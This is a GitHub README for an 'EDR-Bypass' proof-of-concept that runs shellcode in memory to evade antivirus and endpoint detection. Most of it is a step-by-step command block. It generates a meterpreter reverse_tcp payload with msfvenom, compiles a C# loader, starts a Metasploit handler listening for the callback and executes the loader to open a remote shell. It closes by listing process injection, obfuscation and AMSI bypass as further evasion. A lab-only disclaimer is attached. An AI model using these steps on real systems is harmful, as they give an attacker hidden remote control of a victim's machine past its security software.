

# EDR-Bypass
**Created By:** Mohammad Almahamid  
**Twitter:** [@j6_mu](https://twitter.com/j6_mu)

---

## Overview
This repository contains a **proof-of-concept (PoC)** for bypassing EDR and antivirus solutions using memory injection techniques.  
The code executes shellcode in memory to create a reverse shell in a lab environment for educational purposes.

> **Disclaimer:** Use this code responsibly in environments where you have explicit permission.

---

## Preview


---


```bash
# =======================================================
# EDR Bypass PoC - Full Lab Setup Instructions
# Author: Mohammad Almahamid (@j6_mu)
# =======================================================

# Step 1: Clone the repository
git clone https://github.com/cyberx-1/EDR-Bypass.git
cd EDR-Bypass

# Step 2: Modify Shellcode
# Replace byte[] buf in loader.cs with shellcode for your lab IP and port
# Generate shellcode using msfvenom:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f csharp

# Step 3: Compile the C# code
csc loader.cs
# Optional: Compile in Release mode for optimization
csc -optimize loader.cs

# Step 4: Start a listener on Kali Linux
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
set LPORT <YOUR_PORT>
run

# Step 5: Execute the payload on Windows VM
loader.exe

# Step 6: Interact with the reverse shell
meterpreter > sysinfo
meterpreter > shell

# Step 7: Optional Advanced Evasion Techniques
# - Process injection into trusted processes
# - Shellcode obfuscation
# - AMSI bypass techniques
# Only use in a safe lab environment
